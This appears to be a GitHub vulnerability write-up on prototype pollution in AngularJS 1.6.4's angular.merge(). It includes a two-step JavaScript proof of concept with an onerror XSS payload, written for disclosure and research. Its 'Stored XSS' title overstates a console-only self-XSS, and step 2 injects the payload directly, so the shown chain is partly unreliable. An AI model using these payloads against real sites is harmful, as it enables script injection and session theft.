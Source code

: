 # 🧨 Prototype Pollution → Stored XSS via AngularJS 1.6.4

This repository documents a **client-side vulnerability** that combines **Prototype Pollution** and **DOM-Based XSS** in a web application using **AngularJS v1.6.4**. The issue was identified and reported as part of an educational security research effort.

---

## 📚 Description

AngularJS 1.6.4 is vulnerable to **Prototype Pollution** through its `angular.merge()` function. When an attacker is able to modify `Object.prototype` with arbitrary properties (e.g., `innerHTML`), and these properties are later rendered via AngularJS features such as `ng-bind-html` and `$sce.trustAsHtml()`, it can lead to arbitrary JavaScript execution (**XSS**) in the victim's browser.

---

## ⚙️ Affected Technology

- Framework: **AngularJS v1.6.4**
- Vulnerable Function: `angular.merge()`
- Associated CVE: [CVE-2019-10768](https://nvd.nist.gov/vuln/detail/CVE-2019-10768)
- Vulnerability Type: `Prototype Pollution → DOM-Based XSS`
- CWE Classifications:
  - [CWE-1321: Improperly Controlled Modification of Object Prototype Attributes (Prototype Pollution)](https://cwe.mitre.org/data/definitions/1321.html)
  - [CWE-79: Cross-Site Scripting (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

## 🧪 Proof of Concept (PoC)

### Step 1 – Prototype Pollution

```js
angular.merge({}, JSON.parse('{"__proto__":{"innerHTML":"<img src=x onerror=alert(1337)>","polluted":"yes"}}'));
console.log({}.polluted); // prints: "yes"

Step 2 – Triggering the Sink (ng-bind-html)

angular.element(document.body).injector().invoke(
  ['$compile', '$rootScope', '$sce', function($compile, $rootScope, $sce) {
    $rootScope.test = { innerHTML: $sce.trustAsHtml('<img src=x onerror=alert(1337)>') };
    const el = angular.element('<div ng-bind-html="test.innerHTML"></div>');
    document.body.appendChild(el[0]);
    $compile(el)($rootScope);
    $rootScope.$digest();
  }]
);

✅ This triggers alert(1337), confirming the execution of injected JavaScript.
🎯 Impact

    Type of XSS: DOM-Based XSS

    Current Entry Vector: Developer console (self-XSS)

    Potential Real-World Impact:

        Cookie or token theft

        Session hijacking

        Internal phishing or persistent client-side injection (if an external input vector is found)

📊 CVSS Score

CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N
Base Score: 6.1 (Medium)

🔬 Real-World Exploitability

Currently, exploitation requires access to the browser console (self-XSS). However, if an attacker finds a way to inject data into an object passed to angular.merge() (via URL parameters, cookies, localStorage, or API calls), this vulnerability can escalate to:

    ✅ Stored XSS

    ✅ Reflected XSS

    ✅ Persistent client-side compromise

An automated injection vector is currently under investigation.
📎 HackerOne-Style Report

This vulnerability was responsibly disclosed to the NBA Bug Bounty Program. The initial triage marked it as self-XSS, but the issue remains technically valid as a Prototype Pollution vulnerability with real XSS impact potential.
⚠️ Disclaimer

This proof of concept is for educational and research purposes only. No unauthorized testing or exploitation was conducted against any live systems.
